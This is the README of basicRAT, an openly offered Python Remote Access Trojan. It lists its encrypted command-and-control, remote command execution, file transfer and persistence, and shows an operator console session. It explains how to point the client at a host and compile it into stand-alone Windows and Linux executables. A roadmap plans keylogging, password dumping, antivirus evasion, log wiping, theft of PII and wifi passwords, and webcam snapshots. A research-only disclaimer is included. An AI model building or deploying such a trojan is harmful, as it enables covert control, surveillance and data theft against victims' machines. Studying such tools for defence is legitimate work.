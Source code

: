 # basicRAT

This is a cross-platform Python Remote Access Trojan (RAT), basicRAT was created to maintain a clean design full-featured Python RAT. Currently a work in progress and still being actively hacked on.

**Disclaimer: This RAT is for research purposes only, and should only be used on authorized systems. Accessing a computer system or network without authorization or explicit permission is illegal.**

## Features
* Cross-platform (Windows, Linux, and macOS)
* AES GCM encrypted C2 with D-H exchange
* Accepts connection from multiple clients
* Command execution
* File upload/download
* Standard utilities (wget, unzip)
* System survey

## Usage
```
$ python basicRAT_server.py --port 1337

 ____    ____  _____ ____   __  ____    ____  ______      .  ,
|    \  /    |/ ___/|    | /  ]|    \  /    ||      |    (\;/)
|  o  )|  o  (   \_  |  | /  / |  D  )|  o  ||      |   oo   \//,        _
|     ||     |\__  | |  |/  /  |    / |     ||_|  |_| ,/_;~      \,     / '
|  O  ||  _  |/  \ | |  /   \_ |    \ |  _  |  |  |   "'    (  (   \    !
|     ||  |  |\    | |  \     ||  .  \|  |  |  |  |         //  \   |__.'
|_____||__|__| \___||____\____||__|\_||__|__|  |__|       '~  '~----''
         https://github.com/vesche/basicRAT

basicRAT server listening for connections on port 1337.

[?] basicRAT> help

client <id>         - Connect to a client.
clients             - List connected clients.
download <files>    - Download file(s).
execute <command>   - Execute a command on the target.
help                - Show this help menu.
kill                - Kill the client connection.
persistence         - Apply persistence mechanism.
quit                - Exit the server and end all client connections.
scan <ip>           - Scan top 25 ports on a single host.
survey              - Run a system survey.
unzip <file>        - Unzip a file.
upload <files>      - Upload files(s).
wget <url>          - Download a file from the web.

[?] basicRAT> clients
ID - Client Address
 1 - 127.0.0.1

[?] basicRAT> client 1

[1] basicRAT> execute uname -a
Linux sandbox3 4.8.13-1-ARCH #1 SMP PREEMPT Fri Dec 9 07:24:34 CET 2016 x86_64 GNU/Linux
```

## Build a stand-alone executable
Keep in mind that before building you will likely want to modify both the `HOST` and `PORT` variables located at the top of `basicRAT_client.py` to fit your needs.

On Linux you will need Python 2.x, [PyInstaller](http://www.pyinstaller.org/), and pycrypto. Then run something like `pyinstaller2 --onefile basicRAT_client.py` and it should generate a `dist/` folder that contains a stand-alone ELF executable.

On Windows you will need Python 2.x, PyInstaller, pycrypto, pywin32, and pefile. Then run something like `C:\path\to\PyInstaller-3.2\PyInstaller-3.2\pyinstaller.py --onefile basicRAT_client.py` and it should generate a `dist/` folder that contains a stand-alone PE (portable executable).

## Todo
* Interactive shell
* Client periodic connection attempt
* Client binary generation tool (cross-platform)
  * Pyinstaller
  * Switch options for remote IP, port, etc
* Persistence (cross-platform)
  * Windows: Registry keys, WMIC, Startup Dir
  * Linux: cron jobs, services, modprobe
  * macOS: LaunchAgent, LaunchDaemons
* Self-destruct (remove the RAT entirely)
* Privilege Escalation (getsystem-esque, dirty cow)
* Common C2 Protocols (HTTP, DNS)
* Clean log files
    * Linux: bash history, var logs, audit logs, etc
    * Windows: Event logs, prefetch, etc
* Screenshot
* Keylogger
* Expand toolkit (unrar, sysinfo)
* Scanning utilities (probe scan / ping sweep, scanning subnet)
* Password dumping (mimikatz / gsecdump)
* Tunneling / Pivoting (ssh)
* Anti-virus detection and evasion
* VM and Sandbox detection
* Exfil browser history
* Search file system for sensitive information using regex
    * addresses, credit cards numbers, socials, PII, etc
* Detect web cameras and take snapshots
* Steal wifi passwords

## Authors
* Austin Jackson [@vesche](https://github.com/vesche)
* Skyler Curtis [@deadPix3l](https://github.com/deadPix3l)

## Thanks
* [@bozhu](https://github.com/bozhu), AES-GCM Python implementation.
* [@reznok](https://github.com/reznok), multiple client connection prototype.

## Other open-source Python RATs for Reference
* [nathanlopez/Stitch](https://github.com/nathanlopez/Stitch)
* [n1nj4sec/pupy](https://github.com/n1nj4sec/pupy)
* [sweetsoftware/Ares](https://github.com/sweetsoftware/Ares)
* [ahhh/Reverse_DNS_Shell](https://github.com/ahhh/Reverse_DNS_Shell)
